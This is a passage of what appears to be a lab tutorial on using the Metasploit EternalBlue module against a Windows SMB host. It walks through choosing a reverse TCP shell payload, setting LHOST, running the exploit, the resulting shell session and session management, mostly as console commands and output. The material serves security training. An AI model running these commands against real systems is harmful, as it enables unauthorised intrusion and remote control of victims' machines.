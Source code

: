 The compatible payloads will be displayed, each with a description and rank.

## Selecting and Setting Payloads

Once you choose a payload, use the `set payload` command:

```plaintext
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 2
payload => generic/shell_reverse_tcp
```

You can view the options for the exploit and payload with the `show options` command.

### Example of Payload and Module Options:

**Exploit Options:**

- **RHOSTS**: Required target host(s).
- **RPORT**: Default is 445 for SMB.
- **SMBDomain, SMBUser, SMBPass**: Optional authentication parameters.

**Payload Options:**

- **LHOST**: The address to listen on (required).
- **LPORT**: The port for the listener (default is 4444).

## Setting LHOST and Running the Exploit

Set the LHOST value and execute the exploit:

```plaintext
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.186.44
lhost => 10.10.186.44
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

Successful execution will establish a connection:

```plaintext
[*] Command shell session 1 opened (10.10.186.44:4444 -> 10.10.12.229:49366)
C:\Windows\system32>
```

## Managing Background Sessions

You can background a session to work on multiple targets:

```plaintext
C:\Windows\system32>^Z
Background session 1? [y/N]  y
```

## Listing Active Sessions

Use the `sessions` command to manage and interact with active sessions:

```plaintext
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
```
